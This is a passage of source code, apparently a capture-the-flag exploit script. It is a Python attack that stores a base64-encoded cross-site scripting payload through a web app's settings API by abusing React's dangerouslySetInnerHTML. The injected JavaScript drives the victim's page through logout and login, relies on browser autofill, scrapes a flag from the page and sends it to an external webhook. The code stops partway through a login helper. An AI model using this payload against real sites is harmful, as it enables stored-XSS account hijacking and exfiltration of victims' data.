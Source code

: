 ```py
    if (logoutbtn.length > 0) {{
        // click logout button if exists
        w.document.getElementsByClassName('logout-btn')[0].click();
        await sleep(500);
    }}
    // look for <a href="/login">Login</a> tag and click it
    w.document.querySelector('a[href="/login"]').click();
    // wait for autofill
    await sleep(1000);
    w.document.getElementsByClassName('btn')[0].click();
    // wait for redirect / login
    await sleep(1000);
    // extract flag from body
    const body = w.document.body.innerHTML;
    const flagMatch = body.match(/toh\\{{([^}}]+)\\}}/);
    if (flagMatch) {{
        const flag = flagMatch[1];
        fetch('{webhook_url}/?flag=' + encodeURIComponent(flag), {{ 'mode': 'no-cors' }});
    }} else {{
        console.error('Flag not found in body:', body);
    }}
}})();
</script>
"""

def store_xss_payload():
    # assuming session has user authentication
    # Create settings with XSS payload
    payload = {
        "displayName": {
            # "children": "",
            # "style": {"color": "red"},
            "dangerouslySetInnerHTML": {
                "__html": "<img onerror=document.write(atob(\"" + encode_base64(xss_payload) + "\")) src='invalid-image' />"
            }
        }
    }
    response = s.post(f"{app_url}/api/settings", json=payload)
    if response.status_code == 200:
        print("XSS payload stored successfully.")
    else:
        print(f"Failed to store XSS payload. Status code: {response.status_code}")
        print("Response:", response.text)
    return response

def register(username, password):
    # Register a new user
    payload = {
        "username": username,
        "password": password
    }
    response = s.post(f"{app_url}/api/register", json=payload)
    if response.status_code == 201:
        print("User registered successfully.")
    else:
        print(f"Failed to register user. Status code: {response.status_code}")
        print("Response:", response.text)
    return response

def login(username, password):
    # Login the user
    payload = {
```